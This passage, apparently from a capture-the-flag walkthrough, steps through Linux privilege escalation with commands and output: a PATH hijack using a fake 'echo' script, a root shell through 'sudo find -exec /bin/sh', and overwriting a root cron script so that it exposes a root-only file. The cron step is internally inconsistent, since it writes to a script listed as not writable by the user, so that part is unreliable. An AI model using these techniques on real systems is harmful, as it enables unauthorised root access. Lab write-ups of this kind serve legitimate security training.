 3. Examined the custom_backup binary


```bash
$ /usr/local/bin/custom_backup
Running system backup utility...
Backup completed successfully!
```

4. Checked the PATH environment variable

```bash
$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

5. Created a malicious **'echo'** script to exploit path manipulation

```bash
$ cd ~
$ echo '#!/bin/bash' > echo
$ echo 'cat /root/root_flag.txt' >> echo
$ chmod +x echo
```

6. Executed the custom_backup binary to trigger the exploit

```bash
$ /usr/local/bin/custom_backup
Running system backup utility...
CONGRATULATIONS!
You have successfully completed all challenges and achieved root access!

FLAG{Root_Access_Complete_Master_Pentester}
```

7. Alternative method: Exploiting sudo permissions

```bash
$ sudo -l
User victim may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/find

$ sudo find /etc -exec /bin/sh \;
# whoami
root
# cat /root/root_flag.txt
CONGRATULATIONS!
You have successfully completed all challenges and achieved root access!

FLAG{Root_Access_Complete_Master_Pentester}
```

8. Alternative method: Exploiting writable cron jobs


```bash
$ cat /etc/cron.d/*
# System maintenance tasks
* * * * * root /opt/scripts/system_check.sh

$ ls -la /opt/scripts/
total 12
drwxrwxrwx 2 root root 4096 Jul 01 12:00 .
drwxr-xr-x 3 root root 4096 Jul 01 12:00 ..
-rwxr-xr-x 1 root root  123 Jul 01 12:00 system_check.sh

$ echo '#!/bin/bash' > /opt/scripts/system_check.sh
$ echo 'cat /root/root_flag.txt > /tmp/flag.txt' >> /opt/scripts/system_check.sh
$ echo 'chmod 777 /tmp/flag.txt' >> /opt/scripts/system_check.sh
$ echo 'echo "System check running at $(date)" >> /var/log/system_check.log' >> /opt/scripts/system_check.sh
```